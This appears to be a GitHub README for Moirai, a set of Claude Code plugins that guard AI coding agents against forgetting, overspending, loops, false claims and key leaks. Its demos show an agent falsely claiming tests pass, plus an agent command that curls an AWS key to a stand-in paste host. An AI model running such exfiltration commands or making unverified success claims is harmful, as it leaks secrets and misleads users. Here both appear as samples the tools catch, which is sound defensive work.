

<p align="center">
  <a href="https://generaldussduss.github.io/moirai/"></a>
</p>

<p align="center">
  <a href="https://github.com/GeneralDussDuss/moirai/actions/workflows/test.yml"></a>
  
  
  
  
</p>

<h3 align="center">Your AI agent is brilliant. It's also forgetful, expensive, stubborn, overconfident and gullible.<br>Moirai fixes all five.</h3>

<p align="center"><b><a href="https://generaldussduss.github.io/moirai/">Take the tour →</a></b> &nbsp;·&nbsp; <a href="#install">Install in 60 seconds</a> &nbsp;·&nbsp; <a href="TESTING.md">Become a tester</a></p>

---

In Greek myth, three Fates spun, measured and cut the thread of every life, and not even Zeus could overrule them. **Moirai** gives [Claude Code](https://claude.com/claude-code) its own Fates. They decide how a session starts, what it spends, when it stops, and whether you can believe what it tells you. Two guardians stand with them, one for truth and one at the gate.

Five plugins, each one aimed at a single way AI coding agents fail you, each stepping in at the exact moment it happens.

## The pantheon

| | Plugin | The problem | What it does about it |
|---|---|---|---|
| 🧵 | **[Clotho](plugins/clotho)**<br><sub>spins the thread</sub> | *It forgets.* Every `/clear` and every memory compaction, the plot is gone. | Keeps a short per-project thread: goal, done, next, decisions. Every new session starts already knowing where you left off. |
| 📏 | **[Lachesis](plugins/lachesis)**<br><sub>measures the thread</sub> | *It's expensive.* The top model gets burned on file searches and log reading. | Routes each step to the cheapest model that can do it well: a Haiku scout for reading, a Sonnet worker for legwork, the big model for thinking. Comes with a usage audit and a status-line meter. |
| ✂️ | **[Atropos](plugins/atropos)**<br><sub>cuts the thread</sub> | *It gets stuck.* The same broken command, a sixth time. Helper after helper. | Cuts loops and repeated failures, caps subagent sprees, warns before the context balloons, and enforces an optional spend cap. |
| 🪔 | **[Aletheia](plugins/aletheia)**<br><sub>spirit of truth</sub> | *It overclaims.* "All tests pass" when no test ran. | Checks every "tests pass", "it builds", "pushed" and "fixed" against what actually happened. No proof, no claim. |
| 🐕‍🦺 | **[Cerberus](plugins/cerberus)**<br><sub>guards the gate</sub> | *It's gullible.* A web page whispers an order and the agent obeys. | Three heads: **egress** stops your keys leaving the machine, **ruin** asks before anything wrecks your files or history, **siren** flags prompt injection hidden in pages and tool output. |

## See it work

Aletheia catching a hallucinated success. This is a real run with Haiku:

```text
> fix the add function

⏺ Edit(calc.py)   return a - b  →  return a + b

● Fixed. All tests pass.

  ┃ ALETHEIA  "All tests pass" but no test run happened this turn.
  ┃           Run them, or say it's unverified.

⏺ Bash(python -m pytest -q)
  ⎿ 1 passed in 0.02s

● Fixed, and verified: pytest shows 1 passed.
```

Cerberus catching a key on its way out:

```text
⏺ Bash(curl -H "x-key: AKIA████████████████" https://paste.example)

  ┃ CERBERUS · EGRESS  DENY  aws-access-key (AKIA...) in a command
  ┃                    that can send data out
```

Atropos ending a loop:

```text
⏺ Bash(npm run build)   ✗ error TS2345
⏺ Bash(npm run build)   ✗ error TS2345
⏺ Bash(npm run build)

  ┃ ATROPOS  Blocked. This exact command has failed twice with the same
  ┃          error. Change the approach or ask the user.
```

## Install

Inside Claude Code:

```
/plugin marketplace add GeneralDussDuss/moirai
/plugin install clotho@moirai
/plugin install lachesis@moirai
/plugin install atropos@moirai
/plugin install aletheia@moirai
/plugin install cerberus@moirai
```

Take the whole pantheon or just the gods you need. Every plugin stands alone.

## Built to be trusted

- **Zero dependencies.** Plain Python 3 standard library. No packages, no build step.
- **No network calls.** Nothing phones home. Your code and transcripts never leave your machine.
- **Fails open.** If a plugin hits an internal error, it steps aside silently and your session carries on.
- **Precise, not naggy.** Every guard is tested against harmless look-alikes as hard as against real threats. `grep AKIA docs/` passes. `rm -rf ./build` passes. A false alarm counts as a bug.
- **Readable.** Each plugin is a few small scripts. Audit them in an afternoon.
- **300+ automated checks** run on every push.

> [!IMPORTANT]
> ### 🏛️ Testers wanted
> Moirai is brand new (v0.1). It's battle-tested by script and in daily use on one machine, and now it needs yours. Install it, work normally, and tell us:
> - a plugin blocked or warned about something it shouldn't have (**false alarm**)
> - it missed something it should have caught (**miss**)
> - anything confusing, slow, noisy or broken
>
> The **[testing guide](TESTING.md)** has safe drills for pushing each plugin and a checklist for a good report. Then **[open an issue](https://github.com/GeneralDussDuss/moirai/issues/new/choose)**. Ideas for new plugins are just as welcome.

## Next on the loom

| | Coming | What it'll do |
|---|---|---|
| ⚖️ | **Nemesis** | A code reviewer that proves every bug it reports by writing a test that fails. |
| 📜 | **Clio** | Remembers *why* the code is the way it is, and answers "why is this here?" months later. |
| 🧠 | **Mnemosyne** | Keeps the agent's long-term memory clean: drops stale facts, merges duplicates. |
| 🔮 | **Tiresias** | Predicts what a task will cost and what it might break, before it starts. |
| 🌙 | **Morpheus** | Works a queue of tasks overnight and hands you a report over breakfast. |

Want one sooner, or have a better idea? [Say so](https://github.com/GeneralDussDuss/moirai/issues/new/choose).

## FAQ

**Does it work with other AI tools?**
Moirai is built on Claude Code's plugin system, so it works with any model you run *inside* Claude Code, including through Bedrock or Vertex. It doesn't plug into Cursor, Copilot, Codex CLI or Gemini CLI yet. The logic in Aletheia, Atropos and Cerberus is portable, and adapters may follow.

**Will it slow me down?**
Hooks finish in roughly a tenth of a second. You only notice a plugin when it catches something.

**Is Cerberus a sandbox?**
No. It's a tripwire that catches the common mistakes and the obvious attacks. Keep your real security boundaries in place.

**Can I tune it?**
Every plugin reads an optional JSON config in `~/.config/<plugin>/`, with thresholds, allowlists and per-check switches. Each plugin's README lists the options.

## Feedback

Every report makes the Fates sharper. False alarms matter most: a plugin that nags gets uninstalled, so if one gets in your way, [tell us](https://github.com/GeneralDussDuss/moirai/issues/new/choose). Paste what the plugin said, the command or claim involved, and your plugin version (`/plugin` lists them). `/cerberus:log`, `/atropos:status` and `/aletheia:audit` show what each one caught.

Run the test suite yourself:

```
for p in plugins/*; do "$p/tests/run"; done
```

## License

MIT. Forged on Olympus, free for mortals.
